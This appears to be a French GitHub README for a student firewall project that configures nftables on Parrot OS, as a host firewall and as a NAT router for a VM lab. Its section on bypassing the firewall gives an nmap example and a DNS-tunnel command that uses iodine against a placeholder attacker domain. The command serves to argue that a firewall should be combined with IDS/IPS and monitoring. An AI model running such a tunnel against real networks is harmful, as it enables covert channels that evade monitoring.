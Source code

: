 ## Objectif du projet

Ce projet présente la configuration de pare-feux avancés sous **Parrot Security OS**, une distribution orientée **pentest** et **protection de la vie privée/anonymat**.

Les démonstrations portent sur les niveaux suivants :

- **Niveau 6 — nftables (avancé, machine seule)**
- **Niveau 7 — nftables (NAT/Lab, routeur pour un lab de VM)**

## Pourquoi Parrot OS ?

- Distribution orientée **pentest** et **vie privée/anonymat**.
- Le pare-feu **UFW** est installé par défaut mais désactivé → à activer/configurer par l’utilisateur.
- Intègre des outils de confidentialité (Tor, Anonsurf, OnionShare).
- Plus légère que Kali, adaptée aux **machines modestes** et virtualisation (VirtualBox, VMware).

---

## Niveau 6 (standalone, machine personnelle protégée)

## Niveau 7 (NAT / Lab, machine routeur en VM)

---

# 📌 Explications

- **Niveau 6** → protège spécifiquement ta machine personnelle.
- **Niveau 7** → transforme ta machine en pare-feu et routeur pour un réseau virtuel.

📸 Exemple de capture d’écran (nftables actif en niveau 6) :
![Capture d’écran Niveau 6](images/niveau6.png)

📸 Exemple de capture d’écran (nftables NAT/routeur niveau 7) :
![Capture d’écran Niveau 7](images/niveau7.png)

---

# 🖥️ Démonstrations

➡️ **Application des règles** :

---
# ⚠️ Limites et bonnes pratiques

Un pare-feu réduit la surface d’attaque, mais **il ne protège pas de tout**.
Un attaquant expérimenté peut toujours tenter de :

- Passer par un service autorisé (ex : **SSH, HTTPS**).
- Exploiter une **faille applicative**.
- Utiliser du **tunneling** (DNS, HTTPS).
- Contourner via **IPv6** si mal configuré.

👉 **Conclusion :**
Un firewall seul n’est pas suffisant.
Il doit être combiné avec :
- un **IDS/IPS** (Snort, Suricata),
- du **monitoring** (logs, SIEM),
- et des **bonnes pratiques** : MFA, mises à jour régulières, segmentation réseau, durcissement système.

---

# ⚠️ Comment un hacker pourrait contourner

Même avec un firewall avancé (niveaux 6 et 7), il existe des **techniques de contournement** :

- 🔓 **Exploiter les ports ouverts**
(ex : `nmap -p 443 <cible>` ➝ scanner en HTTPS).

- 🌐 **Tunneling DNS**
(ex : `iodine` ➝ transformer DNS en canal de communication).

- 🐞 **Exploiter des failles applicatives** derrière un port autorisé.

---

👉 **C’est pourquoi un firewall seul ne suffit pas** :
il faut le **combiner avec IDS/IPS + monitoring**.

---

### 📌 Exemple : Tunnel DNS (contournement)

Comme le port **53 (DNS)** est ouvert, un attaquant peut établir un tunnel DNS :

iodine -f -r attacker.com

---

# 🔑 Différence entre Niveau 6 et Niveau 7

### 🔹 Niveau 6 : Firewall personnel
- Protège uniquement **ta machine locale**.
- Politique stricte : **tout est bloqué sauf quelques services**.
- Idéal pour un **poste de travail** ou un **serveur isolé**.

👉 **Exemple :** ton PC sous Parrot OS n’accepte que le trafic **web** et **SSH**.

---

### 🔹 Niveau 7 : Firewall réseau
- Ta machine devient un **routeur + firewall**.
- Protège **un réseau interne entier**.
- Ajoute le **forwarding + NAT**.

# ✅ Conclusion

Parrot OS est une alternative solide à Kali Linux : plus légère, orientée vie privée et adaptée aux environnements pentest.

Les niveaux 6 et 7 démontrent deux cas concrets :

🔒 **Protection avancée d’une machine individuelle** (standalone).
🌐 **Mise en place d’un routeur/firewall complet** pour un lab réseau.

👉 Ce projet illustre comment un firewall peut évoluer :
d’une **simple protection locale** ➝ à un **composant réseau avancé**.

---

# 🛠️ Technologies utilisées

- Parrot OS
- nftables
- VirtualBox

---

✍️ Auteur : *Virginie Lechene*








